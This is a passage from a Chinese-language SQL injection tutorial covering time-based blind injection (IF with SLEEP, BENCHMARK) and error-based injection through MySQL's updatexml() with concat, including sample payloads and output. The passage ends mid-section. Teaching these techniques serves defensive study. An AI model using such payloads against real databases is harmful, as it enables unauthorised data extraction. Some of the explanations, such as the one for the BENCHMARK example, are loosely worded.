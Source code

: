   可以利用函数的返回值，如`LENGTH()`函数、`SUBSTR()`函数等，来判断是否注入成功。例如：

  ```sql
  SELECT username,password FROM users WHERE id = 1 AND IF(LENGTH(username)=4,SLEEP(5),0)
  ```

  上述SQL语句的意思是：如果用户名的长度为4，则程序会暂停5秒钟，否则返回0。

- `BENCHMARK()`

  `BENCHMARK()`函数是一种用于重复执行指定语句的函数，在MySQL等数据库中支持使用。`BENCHMARK()`函数的语法通常如下：

  ```sql
  BENCHMARK(count,expr)
  ```

  其中，`count`表示要重复执行的次数，`expr`表示要重复执行的语句。

  看这个例子：

  ```sql
  SELECT * FROM users WHERE username='admin' AND IF(BENCHMARK(10,MD5('test')),1,0)
  ```

  如果数据库中不存在用户名为`admin`的用户，那么该语句将会立即返回；否则，程序将会重复执行`MD5('test')`函数10次后再返回结果

### 报错注入

顾名思义，通过报错信息获取数据的方法。

- `updatexml() ` 

  这里我们先讲 `updatexml() ` 报错注入。
  
  `updatexml()` 是MySQL中的一种XML处理函数，它用于更新XML格式的数 据，其标准的用法如下：
  
  ```sql
  UPDATEXML(xml_target, xpath_expr, new_value)
  ```
  
  其中，`xml_target`是要更新的XML数据，`xpath_expr`是要更新的节点路 径，`new_value`是新的节点值。
  
  但是这个函数有一个缺陷，如果二个参数包含特殊符号时会报错，并且会第二  个参数的内容显示在报错信息中
  
  ```
  mysql> SELECT username, password FROM users WHERE id = 1 and    updatexml(1, 0x7e, 3);
  1105 - XPATH syntax error: '~'
  ```
  
  那么通过这个特性，我们用 `concat()` 函数 将查询语句和特殊符号拼接 在一起，就可以将查询结果显示在报错信息中
  
  ```sql
  SELECT username, password FROM users WHERE id = 1 and updatexml(1, concat(0x7e,version()), 3) 
  ```
  
  输出:
  
  ```sql
  mysql> SELECT username, password FROM users WHERE id = 1 and  updatexml(1, concat(0x7e,version()), 3);
  1105 - XPATH syntax error: '~8.0.12'
  ```
  
  不过要注意的是 `updatexml() ` 的报错长度存在字符长度限制，目前有两  种方法来解决这个问题：
  